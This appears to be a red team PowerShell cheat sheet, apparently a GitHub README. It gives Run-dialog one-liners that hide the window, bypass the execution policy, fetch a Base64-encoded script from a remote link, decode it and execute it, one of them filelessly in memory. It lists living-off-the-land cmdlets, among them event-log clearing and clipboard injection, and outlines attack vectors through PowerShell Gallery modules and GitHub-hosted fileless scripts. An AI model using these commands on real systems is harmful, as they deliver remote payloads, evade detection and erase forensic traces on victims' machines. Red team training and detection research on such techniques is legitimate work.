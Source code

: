 # Red Team PowerShell

## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```

------------------------------

# Living of the Land Cmdlets:

| Cmdlet                  | Description                                                                                          |
|-------------------------|------------------------------------------------------------------------------------------------------|
| Get-StartApps           | Used to retrieve a list of Start menu apps and tiles for the current user on a Windows operating system. |
| Set-Clipboard           | Used to set clipboard content. Essentially clipboard injection.                                       |
| Get-Clipboard           | Retrieve clipboard content.                                                                          |
| Get-LocalUser           | Return all local users on the system.                                                                |
| Get-NetFirewallProfile  | Gets properties for a firewall profile.                                                              |
| Get-NetFirewallRule     | Gets properties for a firewall rule.                                                                 |
| Get-ComputerInfo        | Retrieves all system and operating system properties from the computer                               |
| Get-Service             | Retrieves a list of all services on the computer                                                     |
| Get-EventLog            | Retrieves events and event logs from local and remote computers (only available in Windows PowerShell 5.1) |
| Get-Process             | Retrieves a list of all active processes on a local or remote computer                               |
| Clear-EventLog          | Deletes all of the entries from the specified event logs on the local computer or on remote computers |
| Clear-RecycleBin        | Deletes the content of a computer's recycle bin                                                       |

# Attack Vectors:

### PowerShell Gallery Modules

- Upload PowerShell Gallery module and import it onto targets systems. This method allows widge range use as most Windows computers has PowerShell enabled. This method also exploits trusted Windows applications, making it harder to detect. This method could also potentially assist in elevated privileges. However, when a module is imported from PowerShell Gallery, it touches the hard drive and is typically saved to `"C:\Users\USER\Documents\PowerShell\Modules\"`.

### Fileless PowerShell Script Execution

- You can upload a file to a remote server and fetch the raw contents of the script and save it as a PowerShell variable and then execute that variable. This allows the execution of PowerShell scripts without the script ever touching the hard drive. The script is saved as a variable, which is only stored in memory for that current session. Using GitHub to host the PowerShell script is a common tactic.

### Decode Base64 using PowerShell

- You can decode Base64 directly in PowerShell. Using `Convert.FromBase64String()` you can decode the content from Base64 to binary. You would then use `[Text.Encoding]::UTF8.GetString()` to convert the binary data to a regular string.

For example, the below code converts Base64 to binary:

```powershell
# convert base64 string to binary
$binary = [System.Convert]::FromBase64String("aGVsbG8=")

# convert binary data to string
$string = [System.Text.Encoding]::UTF8.GetString($binary)

# print the string
$string
```


